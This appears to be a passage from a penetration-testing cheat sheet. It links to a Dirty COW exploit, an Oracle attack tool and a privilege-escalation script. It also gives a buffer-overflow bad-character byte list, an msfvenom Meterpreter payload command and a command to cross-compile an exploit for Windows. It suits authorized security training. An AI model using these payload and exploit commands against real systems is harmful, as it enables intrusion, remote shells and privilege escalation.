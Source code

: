 [https://github.com/FireFart/dirtycow/blob/master/dirty.c](https://github.com/FireFart/dirtycow/blob/master/dirty.c)

### Oracle Enumeration TNS Listener \(port 1521\)

[https://github.com/quentinhardy/odat](https://github.com/quentinhardy/odat)

```text
Also check HackTheBox Silo writeup for more references
```

### Buffer Overflow Bad Chars

```text
"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

### JS Meterpreter Payload

```text
msfvenom -p <payload > LHOST=<ip> LPORT=<port> -f js_le -e generic/none
```

### Compile on Linux for Windows x86

```text
i686-w64-mingw32-gcc exploit.c -o exploit.exe -lws2_32
```

### From MSSQL Injection to RCE

[https://www.tarlogic.com/en/blog/red-team-tales-0x01/](https://www.tarlogic.com/en/blog/red-team-tales-0x01/)

### Windows Kernel Vulnerabilities Finder - Sherlock \(PowerShell\)

```text
https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1
```
